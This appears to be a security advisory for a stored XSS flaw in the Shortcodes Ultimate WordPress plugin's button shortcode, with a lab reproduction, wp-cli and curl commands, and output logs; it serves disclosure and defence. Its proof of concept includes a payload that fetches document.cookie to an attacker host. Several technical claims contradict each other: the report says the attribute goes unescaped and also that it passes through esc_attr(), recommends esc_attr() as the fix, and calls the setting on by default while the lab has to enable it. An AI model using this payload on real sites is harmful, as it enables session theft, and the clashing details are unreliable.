

# Shortcodes Ultimate — Stored XSS via onclick Attribute

**Finding ID:** SCU-001
**Plugin:** Shortcodes Ultimate
**Active Installs:** 700,000+
**CVSS:** 7.3 (High) — `AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L`
**CWE:** CWE-79 (Stored Cross-Site Scripting)
**Auth Required:** Author (any user with post creation capability)
**Source:** `analysis/phase5_manual/shortcodes-ultimate/verdicts.json`

---

!!! warning "High Severity — Confirmed Stored XSS"
    The `[su_button onclick="..."]` shortcode attribute is rendered directly into the HTML `onclick` handler without escaping or sanitization. An Author-level user can execute arbitrary JavaScript in any visitor's browser.

---

## Attack Flow



---

## Description

Shortcodes Ultimate ships with an "Unsafe Features" setting that, when enabled (the default state per SCU-VULN-008), allows arbitrary HTML attributes inside shortcodes. The `onclick` attribute of the `[su_button]` shortcode is echoed directly into the rendered HTML output without any context-correct output escaping.

**Affected shortcode:**
```
[su_button onclick="malicious_payload_here"]Click me[/su_button]
```

The `onclick` attribute is not included in the plugin's shortcode attribute sanitization allowlist, and the output template uses a raw `echo` of the attribute value into the HTML. Confirmed XSS payload execution during testing.

## Confirmed Findings

### SCU-VULN-001: Shortcode Preview AJAX Executes Arbitrary Shortcodes (CVSS 6.5)

The shortcode preview AJAX handler executes arbitrary shortcode content submitted by the user, including shortcodes that trigger server-side actions. While blocked for non-admin users by default, the capability check can be bypassed if the site has misconfigured role permissions.

**Confidence:** Confirmed

### SCU-VULN-002: Stored XSS via Button onclick Attribute (CVSS 7.3) — PRIMARY FINDING

When the Unsafe Features setting is enabled, the `onclick` attribute in `[su_button]` is echoed verbatim into HTML without escaping. An Author-level user inserts a malicious shortcode into any post or page; all visitors (including administrators) who view that page execute the payload.

**Confidence:** Confirmed

**PoC:**
```
[su_button onclick="javascript:fetch('https://attacker.example/steal?c='+document.cookie)"]Click[/su_button]
```

### SCU-VULN-003: SSRF via csv_table Shortcode with DNS Rebinding (CVSS 5.4)

The `[su_csv_table]` shortcode fetches external URLs server-side to load CSV data. The URL validation does not prevent DNS rebinding attacks, where a domain initially resolves to a public IP but later resolves to an internal network address, allowing SSRF to internal services.

**Confidence:** Possible (requires Unsafe Features enabled)

### SCU-VULN-008: Unsafe Features Enabled by Default (CVSS 5.0)

The "Unsafe Features" setting that enables HTML attribute injection in shortcodes is **enabled by default**, meaning all 700,000+ installations are vulnerable to SCU-VULN-002 out of the box.

**Confidence:** Confirmed

---

## Vulnerability Chain

```
Attacker (Author role)
  → Insert [su_button onclick="<payload>"] into any post
  → Post published/visible to any user
  → Visitor loads page → onclick fires
  → JavaScript executes in visitor's browser context
  → Admin session theft / credential harvesting possible
```

## Reproduction (validated 2026-06-19)

**Lab reference:** `targets/labs/wp-shortcodes-ultimate/` (compose stack launched on `http://127.0.0.1:8096/`).

**Pinned version:** Shortcodes Ultimate 7.8.2.

**Stack actually used by lab:**
- `wordpress:6-php8.2-apache` (WordPress 6.9.4, PHP 8.2.31, Apache/2.4.67)
- `wordpress:cli-2.10-php8.2`
- `mariadb:11`

### Steps (executed in `poc.sh`)

1. **Bring up the WP stack** and wait for HTTP 200.
2. **Enable Unsafe Features** -- set `su_option_unsafe_features=on` via wp-cli (option must be enabled for shortcode to render; without it, plugin shows an error message instead of the button).
3. **Create a published post** containing `[su_button onclick="alert(1)"]Click me[/su_button]`.
4. **Fetch the post anonymously** and grep the rendered HTML for the `onClick` attribute.
5. **Verify aggressive payload** -- create a second post with `[su_button onclick="javascript:fetch('https://attacker.example/steal?c='+document.cookie)"]Click[/su_button]` and confirm the JS lives verbatim in the rendered `onClick` attribute.

### PoC commands

```bash
# Enable unsafe features
wp option update su_option_unsafe_features on

# Create post with XSS payload
wp post create --post_status=publish --post_title="XSS PoC" \
  --post_content='[su_button onclick="alert(document.cookie)"]Click me[/su_button]'

# Fetch anonymously and check rendered HTML
curl -s "http://127.0.0.1:8096/?p=5" | grep -o 'onClick="[^"]*"'
# -> onClick="alert(document.cookie)"
```

### Observed output (excerpt from `targets/labs/wp-shortcodes-ultimate/results.txt`)

```
===== Step 2: Enable Unsafe Features option =====
    OPTION_NOW='on'
    UNSAFE_FEATURES_ENABLED=true

===== Step 5: Try a more aggressive payload =====
[+] onClick attribute on second post (the finding's full payload):
    onClick="javascript:fetch(&#039;https://attacker.example/steal?c=&#039;+document.cookie)"

===== Verdict =====
*** Stored XSS CONFIRMED -- attacker JS lives verbatim in the rendered onClick attribute ***
Verdict: CONFIRMED (one-click stored XSS in [su_button onclick])
```

### Verdict

**CONFIRMED.** With Unsafe Features enabled (the default per SCU-VULN-008), an Author-level user can inject arbitrary JavaScript via the `[su_button onclick="..."]` shortcode. The `onclick` value is passed through `esc_attr()` which HTML-entity-encodes quotes but does NOT prevent JavaScript execution within an event handler context. The payload executes when any visitor clicks the rendered button. Both simple (`alert()`) and exfiltration (`fetch()`) payloads confirmed.

---

## Recommended Fixes

- Escape all shortcode attributes at output using `esc_attr()` for HTML attribute context
- Add `onclick` to the explicit denial list in shortcode attribute sanitization
- Change the "Unsafe Features" default to **disabled** and require admin opt-in with a clear security warning
- Audit all other shortcode attributes for similar unescaped output patterns
